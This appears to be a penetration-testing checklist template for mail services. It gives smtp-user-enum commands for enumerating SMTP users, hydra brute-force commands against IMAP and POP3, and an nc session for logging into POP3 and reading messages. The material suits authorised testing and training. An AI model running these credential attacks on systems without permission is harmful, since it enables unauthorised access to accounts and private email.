 ~~~ad-check
title:SMTP Brute Force

```bash
smtp-user-enum -M RCPT -U wordlist.txt -t <% machineIp %>
```
*Screenshot*
___

___
~~~

### POP and IMAP (110, 995; 143, 993)

> [110,995 - Pentesting POP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)
> [143,993 - Pentesting IMAP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

If any valid users were identified and POP3/IMAP services are running we might want to guess for simple passwords:

*Note*: In order to perform this bruteforce attack, you will need to strip off the '@domain' part and only use the username.

~~~ad-check
title:IMAP Brute Force
```bash
hydra -L users.txt -P users.txt <% machineIp %> -e nsr imap(s)
```

```bash
hydra -L users.txt -P users.txt <% machineIp %> -e nsr pop3(s)
```

*Screenshot*
___

___
~~~

If this attack returns valid credentials, we can connect to POP3/IMAP using the following command to access mailboxes to read messages:

~~~ad-check
title:Logging into POP3/IMAP

```bash
nc -nv <% machineIp %> 110
USER {user}
PASS {pass}
LIST # show messages
RETR {number} # read message
```

*Screenshot*
___



~~~
